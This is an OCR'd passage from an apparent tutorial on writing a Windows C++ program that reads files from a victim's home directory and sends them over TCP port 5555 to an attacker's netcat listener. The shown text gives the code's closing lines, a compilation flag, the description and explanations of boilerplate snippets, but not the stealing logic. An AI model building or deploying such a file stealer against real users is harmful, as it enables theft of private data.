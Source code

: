 ```cpp
    closesocket(server);
    WSACleanup();
}
```

***

### Compilation

* Add the flag **-lws2\_32** for the linker

***

### Description

The above code would read the contents of the files in the home directory of the victim user and send it over to the attacker machine by establishing a TCP connection over port 5555.

On the attacker's end, we will be using netcat to setup a listener on port 5555 and receive the data sent by the stealer program.

Now that's a high level overview of the code. Let's dive deeper into the code and understand the parts of it:

***

### Explanation

#### Snippet 1:

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
```

Explanation: We use winsock utilities and we do not want the compiler to complain about older functionalities used, since the below code is sufficient for our needs.

#### Snippet 2:

```cpp
#pragma comment(lib, "Ws2_32.lib")
```

Explanation: We need the Ws2\_32.lib library in order to use sockets (networking) functionality in Windows.

#### Snippet 3:

```cpp
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string>
```
